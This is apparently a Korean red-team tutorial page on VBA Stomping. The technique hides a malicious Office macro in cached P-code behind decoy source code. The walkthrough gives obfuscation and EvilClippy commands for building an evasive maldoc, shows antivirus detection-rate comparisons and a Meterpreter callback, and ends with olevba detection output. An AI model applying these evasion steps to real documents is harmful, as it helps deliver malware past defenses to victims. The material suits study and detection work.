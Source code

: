 # VBA Stomping

VBA Stomping 은 2018년도 Derbycon 에서 Harold Ogden (@haroldogden), Kirk Sayre (@bigmacjpg) and Carrie Roberts (@OrOneEqualsOne) 가 Dr. Vesselin Bontchev 박사의 P-code 연구를 보고 영감을 받아 만들어낸 VBA 매크로 방어 우회 기법 중 하나다.&#x20;

VBA 매크로는 총 3가지 형태로 오피스 제품에 저장된다:&#x20;

1. 소스코드 - 실제로 작성된 VBA 매크로의 소스코드가 압축된 형태&#x20;
2. P-code - #1번을 기반으로 컴파일된 어셈블리어와 비슷한 형태 - 캐시된 형태로, 똑같은 오피스 버전에서 열리면 소스코드가 아닌 P-code가 대신 실행된다&#x20;
3. Execode - P-Code가 여러번 실행될 시 P-code를 tokenize 한 형태로 저장되는 형태 - 이건 일단 무시한다.&#x20;

여기서 재밌는 점은 소스코드를 flexhex 등의 툴을 이용해 다른 VBA 매크로로 변경해도 P-code는 이전 소스코드를 담고 있다는 것이다. 예를 들어,&#x20;

* 소스코드 - 악성 VBA
* P-code - 악성 VBA

의 형태로 저장되어 있는 문서를 flexhex 등의 툴로 열어 소스코드 바이트를 직접 수정해주면&#x20;

* 소스코드 - 평범한 VBA, 혹은 null-byte 형태로 아무것도 없는 VBA
* P-code - 악성 VBA

위 상태가 되며, 이 상태로 문서를 열면 소스코드가 아니라 P-code 가 실행된다. 유의할 점은 만들어진 오피스 버전과 문서가 열리는 오피스 버전이 같아야 P-code 가 실행된다는 것이다. 따라서 공격자의 입장에서는 피해자 호스트에 어떤 오피스 제품이 설치되어 있는지를 알아낸 다음에 사용할 수 있는 기법이다. 이는 이메일 헤더와 유저 에이전트 등으로 정보 수집을 통해 알아낼 수 있다.&#x20;

### 실습&#x20;

[오피스 VBA 매크로 페이지](vba-macros.md)에서 사용했던 코드를 그대로 사용한다. 단, 작전보안을 위해 [VisualBasicObfuscator](https://github.com/mgeeky/VisualBasicObfuscator)를 이용해 코드를 난독화한다. 스키디의 악용을 막기 위해 툴의 라인 647에서 발생하는 에러를 고치는 법은 따로 설명하지 않는다.&#x20;

```
https://github.com/mgeeky/VisualBasicObfuscator.git

# range() 함수와 관련해서 간단한 수정을 하면 제대로 실행된다. 
647# for s in range(len(longLine) / SPLIT + 1):

# 난독화 진행 
┌──(root㉿kali)-[/opt/VisualBasicObfuscator]
└─# python3 obfuscate.py payload.vbs -o payload-obfuscated.vbs

    :: Visual Basic script obfuscator for thy red teaming needs!
    Mariusz Banach / mgeeky, '17, '20; <mb [at] binary-offensive.com>
    v: 0.2

[+] Input file:         payload.vbs
[+] Output file:        payload-obfuscated.vbs
[+] Input file length: 1205
[+] Obfuscated file length: 5742
[+] Obfuscated code has been written to:
                payload-obfuscated.vbs
```

이후 VBA Stomping에 사용될 가짜 VBA 코드를 준비한다. 이제 VBA 소스코드는 가짜 VBA 코드로 덮어씌워지고, P-code에는 위에서 만든 악성 VBA 코드가 제대로 들어가 있을 것이다. 이는 추후 대응방안 섹션에서 확인한다.&#x20;

EvilClippy 툴을 이용해 VBA stomping 과 메타데이터 삭제, 모듈 이름 랜덤화, GUI에서 VBA 감추기 등의 방어 우회 기법을 적용한다.&#x20;

VBA Stomping에 사용될 가짜 VBA 코드는 다음과 같다.&#x20;

```
Sub Document_Open()
    Macro1
End Sub

Sub AutoOpen()
    Macro1
End Sub

Sub Macro1()
'
' Macro1 Macro
'
'
    Range("B1").Select
    ActiveCell.FormulaR1C1 = "Hello World"
    Range("B2").Select
End Sub
```

이제 EvilClippy를 사용해 VBA Stomping을 진행한다.&#x20;

```
 # EvilClippy 설치 - Visual studio -> x64 Native Tools command prompt 
 csc /reference:OpenMcdf.dll,System.IO.Compression.FileSystem.dll /out:EvilClippy.exe *.cs
 
 # EvilClippy 사용 
 .\EvilClippy.exe -s .\fakecode.vba .\sample-payload-obs.doc -g -d -r -u 
```



VBA Stomping 과 난독화를 진행하지 않은 일반 페이로드의 탐지율을 확인해보자.&#x20;

![일반 페이로드 ](<../../.gitbook/assets/image (5) (1) (1).png>)

VBA stomping만 적용한 페이로드의 탐지율을 다음과 같다.&#x20;

![VBA stomping을 적용한 페이로드](<../../.gitbook/assets/image (11) (1) (1).png>)

VBA stomping과 난독화를 둘 다 적용한 페이로드다. 몇몇 AV들은 스캔을 포기한 것을 볼 수 있다.

![VBA stomping과 난독화를 적용한 페이로드 ](<../../.gitbook/assets/image (9) (1).png>)



이후 페이로드를 실행하면 meterpreter가 돌아온다.&#x20;

![](../../.gitbook/assets/vba-stomping-2.gif)

### 분석/대응 방안&#x20;

VBA Stomping 기법과 P-code의 악용 방법은 2018년도에 나왔기 때문에 2022년도 기준으로 많은 툴들이 이를 탐지한다. 예를 들어 [oletools](https://github.com/decalage2/oletools/wiki/olevba) 툴을 이용해 VBA Stomping 기법을 적용한 파일을 분석해보자.&#x20;

olevba 를 통해 분석해보면 다음과 같은 VBA 매크로와 P-code가 나온다.&#x20;

![](<../../.gitbook/assets/image (10) (1) (1).png>)

VBA 매크로인 `Macros/VBA/ThisDocument` 과 `Macros/VBA/NewMacros` 에서는 수상한 VBA 매크로가 발견되지 않는다. EvilClippy가 위에서 가짜 VBA 매크로로 VBA Stomping을 진행했기 때문이다.&#x20;

하지만 P-code 섹션을 보면 원래 있었던 VBA 페이로드가 보인다. 난독화를 진행했기 때문에 `Create, ShowWindow, Xor, Base64 Strings, VBA Stomping` 등의 수상한 키워드들이 보인다.&#x20;

`ThisDocument` 와 `NewMacros` 의 코드는 다음과 같이 나온다&#x20;

```
┌──(root㉿kali)-[~/blog]                                                                              
└─# olevba -a sample-payload_EvilClippy.doc -c                                 
olevba 0.60.1 on Python 3.10.4 - http://decalage.info/python/oletools                                 
===============================================================================
FILE: sample-payload_EvilClippy.doc                                                                   
Type: OLE                                                                                             
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls                                                                            
in file: sample-payload_EvilClippy.doc - OLE stream: 'Macros/VBA/ThisDocument' 
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -  
Sub Document_Open()                                                                                   
    Macro1                                                                                            
End Sub                                                                                               
                                                                                                      
Sub AutoOpen()                                                                                                                                                                                               
    Macro1                                                                                            
End Sub                                                                                               
                                                   
Sub Macro1()                                                                                          
'                                                                                                     
' Macro1 Macro                                                                                        
'                                                                                                     
'                                                                                                     
    Range("B1").Select                                                                                
    ActiveCell.FormulaR1C1 = "Hello World"                                                            
    Range("B2").Select                                                                                
End Sub                              
```

그 이후 P-code를 살펴보면 다음과 같은 코드가 나온다. 난독화된 VBA 코드가 또 다시 P-code 형태로 변했기 때문에 읽기 힘들지만, 적어도 악성 행위를 하는 VBA를 살펴볼 수는 있다.&#x20;

```
VBA MACRO VBA_P-code.txt                                                                                                                                                                                     
in file: VBA P-code - OLE stream: 'VBA P-code'                                                        
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -                         
' Processing file: sample-payload_EvilClippy.doc                                                      
' ===============================================================================                                                                                                                            
' Module streams:
' Macros/VBA/ThisDocument - 922 bytes
' Macros/VBA/NewMacros - 9204 bytes
' Line #0:
'       FuncDefn (Sub Document_Open())
' Line #1:
'       ArgsCall test 0x0000 
' Line #2:
'       EndSub 
' Line #3:
'       FuncDefn (Sub AutoOpen())
' Line #4:
'       ArgsCall test 0x0000 
' Line #5:
'       EndSub 

< ... >
                                                                                                                                                                                            
' Line #142:                                                                                                                                                                                                 
'       Ld EqKwFzDJ                                                                                                                                                                                          
'       Ld EqKwFzDJ 
'       FnLen 
'       Ld Ivtp83Fcz 
'       Sub 
'       ArgsLd Left$ 0x0002 
'       St EqKwFzDJ 
' Line #143:
'       EndIfBlock 
' Line #144:
'       Ld EqKwFzDJ 
'       St O9sTsRbm 
' Line #145:
'       EndFunc 
' Line #146:

```



### 레퍼런스&#x20;

{% embed url="https://github.com/bontchev/pcodedmp" %}

{% embed url="https://vbastomp.com/" %}

{% embed url="https://medium.com/walmartglobaltech/vba-stomping-advanced-maldoc-techniques-612c484ab278" %}

{% embed url="https://outflank.nl/blog/2019/05/05/evil-clippy-ms-office-maldoc-assistant/" %}

{% embed url="https://github.com/sevagas/macro_pack" %}

{% embed url="https://github.com/outflanknl/EvilClippy" %}
